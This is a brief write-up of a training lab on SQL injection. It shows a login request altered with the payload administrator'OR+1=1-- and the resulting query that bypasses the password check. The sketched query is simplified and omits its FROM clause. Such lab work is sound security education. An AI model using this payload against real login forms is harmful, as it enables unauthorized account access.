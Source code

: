 # Lab #1: SQL injection vulnerability allowing login bypass

>Perform an SQL injection attack that logs in to the application as the administrator user. 

Parameter:
```
csrf=XXXXXXXX&username=administrator&password=1
```

Modified:
```
csrf=XXXXXXXX&username=administrator'OR+1=1--&password=1
```

```
SELECT username, password WHERE username='administrator' OR 1=1 -- 'AND password='fahmi'
```


